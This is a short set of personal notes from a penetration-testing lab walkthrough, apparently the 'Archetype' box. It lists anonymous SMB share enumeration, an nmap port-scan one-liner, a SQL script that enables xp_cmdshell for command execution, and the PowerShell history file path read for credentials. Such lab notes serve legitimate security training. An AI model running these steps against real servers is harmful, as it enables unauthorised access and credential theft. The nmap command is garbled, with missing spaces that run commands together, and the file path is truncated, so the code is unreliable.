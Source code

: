 Intended to capture observations during the walkthroughs for processes to apply or things to  remember when coming across certain steps during information gathering.

# Archetype
- If you see SMB, see if anonymous access is granted
    - `smbclient -N -L \\\\IP_ADDR\\`
    - If any are interesting, try to connect with `smbclient -N \\\IP_ADDR\shared_drive_name`

## `nmap`
Clever way to filter out the ports to analyze in greater detail:
```
ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)nmap -sC-sV-p$ports10.10.10.27
```

## SQL
`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')` run once authenticated to SQL DB to reveal whether current user has sysadmin privs
- Can enaable `xp_cmdshell`, with the following script:
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
xp_cmdshell "whoami";
```

## Powershell
Powershell history file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.tx`